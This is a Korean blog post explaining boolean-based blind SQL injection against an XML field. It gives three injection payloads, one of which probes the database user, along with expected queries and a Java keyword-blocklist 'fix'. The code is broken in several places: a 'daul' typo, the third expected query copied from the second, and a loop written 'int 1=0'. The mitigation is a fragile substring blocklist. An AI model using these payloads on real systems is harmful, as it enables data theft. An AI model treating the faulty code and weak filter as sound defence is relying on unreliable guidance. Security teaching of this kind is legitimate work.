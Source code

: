 ```yaml
---
title:  "보안(1) SQL Injection 불리언 분기 공격"
excerpt: "보안(1) SQL Injection 불리언 분기 공격 입니다."

categories:
  - security
tags:
  - [보안, security, COMMON]

toc: true
toc_sticky: true

last_modified_at: 2025-08-22T10:16:00-10:16:00
---
```


## 개요
> ❗<span style='color:green'>***참 거짓을 이용한 반응으로 공격***</span>  
> 💡 *<span style='color:blue'>**해당 내용으로 DB정보까지 탈취 가능**</span> 


## 내용
### 전문
```xml
<!-- 기존 전송되는 기본 XML 전문 -->
<Code>2019</Code>

```

```sql
/* 예상 쿼리 */
SELECT * 
FROM some_table 
WHERE code = '2019';

```
  
Code 라는 태그를 통해 타서버에 값을 전달하며 통신하고 있다.  
{: .notice--info}  
    
   

### 공격코드 1
```js
// 참거짓 반응으로 인젝션 : 비정상 동작을 감지가능.
data = data.replace("<Code>2019", "<Code>2019'||(case when 1=1 then '1' else '' END)||'");

```

```sql
/* 예상쿼리 */
SELECT * 
FROM some_table 
WHERE code = '2019' || (case when 1=1 then '1' else '' END) || '';

```
   
  
### 공격코드 2
```js
// 참거짓 반응으로 인젝션 : 정상 동작을 감지가능. (일부러 틀리게 작성했으므로)
data = data.replace("<Code>2019", "<Code>2019'||(case when 1=2 then '1' else '' END)||'");

```

```sql
/* 예상쿼리 */
SELECT * 
FROM some_table 
WHERE code = '2019' || (case when 1=2 then '1' else '' END) || '';

```


### 공격코드 3
```js
// 참거짓 반응으로 인젝션 : 1,2 번을 통해 공격가능함을 인지하고 DB사용자조회로 공격 후 정보를 예상 
data = data.replace("<Code>2019", "<Code>2019'||(case when 'scott'=(select user from daul) then '1' else '' END)||'");

```

```sql
/* 예상쿼리 */
SELECT * 
FROM some_table 
WHERE code = '2019' || (case when 1=2 then '1' else '' END) || '';

```
  
  
  
## 조치

```java
//중략..
String[] filterSQL = {"DROP","TRUNCATE","DELETE","UPDATE","INSERT","AND","OR","||","&&","\""};

@RequestMapping(value = "/테스트", method = Request.POST, produces = "text/plain;charset=UTF-8")
public @ResponseBody String 테스트(HttpServletRequest request, HttpServletResponse response) throws Exception

if(특정전문케이스 == true) 
{
    String responseXML = data;

    String regex = "<Code\\s*(.*?)\\s*</Code>"; // <Code></Code> 내부를 정규식.
    Pattern pattern = Pattern.compile(regex);

    Matcher matcher = pattern.matcher(responseXML);
    while(matcher.find()) 
    {
      String findValue = matcher.group(1).toUpperCase();

      for(int 1=0; i < filterSQL.size(); i++) 
      {
        if(findValue.contains(filterSQL[i])) {
          throw new BusinessLogicSQLException();
        }
      }
      
    }
}

//이하 정상로직

```


## 정리
> ❗<span style='color:green'>***SQL Injection의 고전적인 형태***</span>   
> 💡 *<span style='color:blue'>**이 공격은 || (CASE WHEN 1=1 THEN '1' ELSE '' END) || 를 붙여서 쿼리 문자열을 조작함.**</span>   
> 💡 *<span style='color:blue'>**결과적으로 WHERE 절 조건을 의도적으로 true/false로 바꿀 수 있다.**</span>   
> 💡 *<span style='color:blue'>**이 방식은 SQL Injection의 고전적인 형태로,  DB 종류(Oracle, PostgreSQL 등 || 문자열 연산 지원 DB)에서 특히 위험.**</span>   





